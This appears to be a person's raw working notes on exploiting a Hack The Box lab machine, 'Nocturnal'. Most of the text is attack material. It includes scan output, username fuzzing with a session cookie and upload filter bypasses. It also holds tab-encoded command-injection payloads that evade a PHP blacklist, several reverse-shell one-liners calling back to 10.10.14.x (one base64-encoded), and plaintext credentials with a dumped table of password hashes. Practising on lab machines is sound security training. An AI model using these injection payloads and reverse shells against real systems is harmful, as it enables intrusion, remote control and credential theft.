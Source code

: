 ___


# get uploaded file
GET /view.php?username=test&file=test.pdf HTTP/1.1
Host: nocturnal.htb


# upload file

POST /dashboard.php HTTP/1.1
Host: nocturnal.htb



# ferox output

 🎯  Target Url            │ http://nocturnal.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /home/ew/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      161l      327w     3105c http://nocturnal.htb/style.css
200      GET       21l       45w      644c http://nocturnal.htb/login.php
200      GET       21l       45w      649c http://nocturnal.htb/register.php
200      GET       29l      145w     1524c http://nocturnal.htb/
403      GET        7l       10w      162c http://nocturnal.htb/uploads
301      GET        7l       12w      178c http://nocturnal.htb/backups => http://nocturnal.htb/backups/
403      GET        7l       10w      162c http://nocturnal.htb/uploads_admin
403      GET        7l       10w      162c http://nocturnal.htb/uploads_user
403      GET        7l       10w      162c http://nocturnal.htb/uploads_group
403      GET        7l       10w      162c http://nocturnal.htb/uploads2
403      GET        7l       10w      162c http://nocturnal.htb/uploads_video
403      GET        7l       10w      162c http://nocturnal.htb/uploads_forum
403      GET        7l       10w      162c http://nocturnal.htb/uploads_event
403      GET        7l       10w      162c http://nocturnal.htb/uploads3
403      GET        7l       10w      162c http://nocturnal.htb/uploads4
403      GET        7l       10w      162c http://nocturnal.htb/uploads6
403      GET        7l       10w      162c http://nocturnal.htb/uploads_files
403      GET        7l       10w      162c http://nocturnal.htb/uploads7
403      GET        7l       10w      162c http://nocturnal.htb/uploads5
403      GET        7l       10w      162c http://nocturnal.htb/uploads_game
403      GET        7l       10w      162c http://nocturnal.htb/uploads_vid
[####################] - 3m    124567/124567  0s      found:21      errors:1      
[####################] - 3m     62282/62282   383/s   http://nocturnal.htb/ 
[####################] - 3m     62282/62282   386/s   http://nocturnal.htb/backups/               


# regex filter



- regex filter is getting rid of the beggining of file name with /  and \ 

payload.php%00.jpg OR payload.php\x00.jpg



payload.php.doc

this works but file is still not being executed as php


# fuzz the usernames parameter

make sure to add the cookie in the requests


ffuf -w /home/ew/Documents/wordlists/wordlist/usernames.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.doc' -b "PHPSESSID=v6qr9bueer8m3cdpv1odh36gvb"  -fs 2985  

needed cookie to fuzz


amanda user was found 


# amanda pass: (has access to admin panel)

# arHkG7HAI68X8s1J

9
uploading files POSTS to dashboard.php

view.php GET request for downloading files associated with user


$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile



1234"%09"backups/cool.zip"%09../nocturnal_database%09>%09/tmp/cool_backup#

1234"shellCMDHERE

1234"%09backups/backup_2025_05_11.zip%09..%09#

1234"%09mkfifo%09/tmp/f

1234"%09cat%09/tmp/f%09

1234"%09busybox%09nc%09-l%09-p%094444%09-e%09/bin/sh

1234"socat%09TCP:10.10.14.25:443%09EXEC:sh

1234"%09/bin/bash%09-i%09>&%09/dev/tcp/10.10.14.23/4444%090>&1

1234"%09/bin/bash%09-i%09>%09/dev/tcp/10.10.14.23/4444%090>1


# this but I get that my ip is refusing the connection???
1234"%09busybox%09nc%0910.10.14.25%094444%09-e%09/bin/bash


       On ‘server’ side:

             $ rm -f /tmp/f; mkfifo /tmp/f
             $ cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 1234 > /tmp/f

       On ‘client’ side:

             $ nc host.example.com 1234
             $ (shell prompt from host.example.com)
 


# this is cleaning/filtering entries
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}


"test%09cool%09../nocturnal_database/nocturnal_database.db%09#//



# This worked !!!!!!!!!!

1234"zip%09-r%09backups/cool.zip%09../nocturnal_database/%09


port 8080 on the machine is running ispconfig web portal


# grabbed db with hashes

sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
7|e0Al5|101ad4543a96a7fd84908fd0d802e7db

slowmotionapocalypse
slowmotionapocalypse
slowmotionapocalypse
slowmotionapocalypse


# port forwarding ispconfig

ssh -L 8080:localhost:8080 tobias@nocturnal

this makes port 8080 on remote host accesible on my machine


creds for ispconfig were:
admin
slowmotionapocalypse




zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile

%09 - not working as space
test"	cool	../nocturnal_database/nocturnal_database.db	#//
test"	cool	../nocturnal_database/nocturnal_database.db	#//

# these made things happen

zip -x './backups/*' -r -P pass coolBak ..nocturnal_database/nocturnal_database.db  > " . $logFile . " 2>&1 &";


if u do a backup and pass a password parameter eventually that gets passed into a shell


<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";


# $password


$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";

bash zip -x ./backups/* -r -P ()


```powershell
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail
```

|| ls

# this cleans it

function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}




either bypass backup blacklist filter
either bypass view.php basename() for dir traversal


$db = new SQLite3('../nocturnal_database/nocturnal_database.db');
$user_id = $_SESSION['user_id'];
$username = $_SESSION['username'];



%0abash "sh -i >& /dev/tcp/10.10.14.25/443 0>&1"

/bin/echo -e


bash -c "sh -i >& /dev/tcp/10.10.14.25/443 0>&1"

YmFzaCAtYyAic2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjUvNDQzIDA+JjEiCg==


base64 -D <<< YmFzaCAtYyAic2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjUvNDQzIDA+JjEiCg== | sh



../nocturnal_database/nocturnal_database.db



function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

































